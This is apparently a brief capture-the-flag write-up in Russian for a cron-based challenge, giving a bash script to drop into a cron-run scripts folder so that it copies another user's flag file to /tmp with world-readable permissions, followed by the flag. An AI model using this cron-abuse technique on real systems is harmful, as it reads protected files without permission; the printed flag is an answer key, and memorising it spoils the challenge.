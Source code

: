 В папку scripts поместить файл следующего содержания:

```bash
#!/bin/bash

cat /home/cr0n0s/flag_cr0n0s/flag.txt > /tmp/flag
chmod 777 /tmp/flag
```

Flag: `flag{i_kn0w_cr0n_4nd_1ik3_17}`